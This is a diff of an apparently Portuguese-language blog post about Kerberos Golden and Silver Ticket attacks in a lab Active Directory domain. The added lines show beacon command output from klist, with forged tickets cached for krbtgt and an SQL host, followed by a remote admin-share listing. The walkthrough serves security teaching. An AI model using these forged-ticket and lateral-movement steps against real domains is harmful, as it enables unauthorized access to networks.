

Before and after one commit to tuxtrack-zz/tuxtrack.github.io, a Jekyll site: the page built from _posts/2020-02-26-g&s.md, in a window 1280 px wide and 1400 px high, scrolled down 4737 px. Shown: the whole window at 90% size, without its empty margins (115-1164 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 5984 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Update 2020-02-26-g&s.md

````diff
--- a/_posts/2020-02-26-g&s.md
+++ b/_posts/2020-02-26-g&s.md
@@ -130,7 +130,44 @@
  * KrbCred generated
 
 Golden ticket for 'admin @ hnr.local' successfully submitted for current session
+```
 
+Utilizando a ferramenta klist, podemos confirmar que os tickets injetados permanecem armazenados em cache.
+
+``` powershell
+beacon> shell klist
+[*] Tasked beacon to run: klist
+[+] host called home, sent: 36 bytes
+[+] received output:
+
+Current LogonId is 0:0x51f1d
+
+#0>	Client: jbolsonaro @ HNR.LOCAL
+	Server: krbtgt/HNR.LOCAL @ HNR.LOCAL
+	KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
+	Ticket Flags 0x60a10000 -> forwardable forwarded renewable pre_authent name_canonicalize
+	Start Time: 3/2/2020 13:56:50 (local)
+	End Time:   3/2/2020 23:41:06 (local)
+	Renew Time: 3/8/2020 18:11:06 (local)
+	Session Key Type: AES-256-CTS-HMAC-SHA1-96
+	Cache Flags: 0x2 -> DELEGATION
+	Kdc Called: GOKU.hnr.local
+
+#2>	Client: jbolsonaro @ HNR.LOCAL
+	Server: host/sql.hnr.local @ HNR.LOCAL
+	KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
+	Ticket Flags 0x40a10000 -> forwardable renewable pre_authent name_canonicalize
+	Start Time: 3/1/2020 18:11:06 (local)
+	End Time:   3/2/2020 4:11:06 (local)
+	Renew Time: 3/8/2020 18:11:06 (local)
+	Session Key Type: AES-256-CTS-HMAC-SHA1-96
+	Cache Flags: 0
+	Kdc Called: GOKU.hnr.local
+```
+
+Como pode-se notar, após submeter o Silver Ticket na sessão para o serviço [CIFS](https://pt.wikipedia.org/wiki/Server_Message_Block), o acesso ao compartilhamento foi concedido, demonstrando a perfeita execução do ataque.
+
+``` powershell
 beacon> shell dir \\SQL.hnr.local\c$
 [*] Tasked beacon to run: dir \\SQL.hnr.local\c$
 [+] host called home, sent: 53 bytes
````
Also changed, not shown: other parts of _posts/2020-02-26-g&s.md (+0 -3 lines).
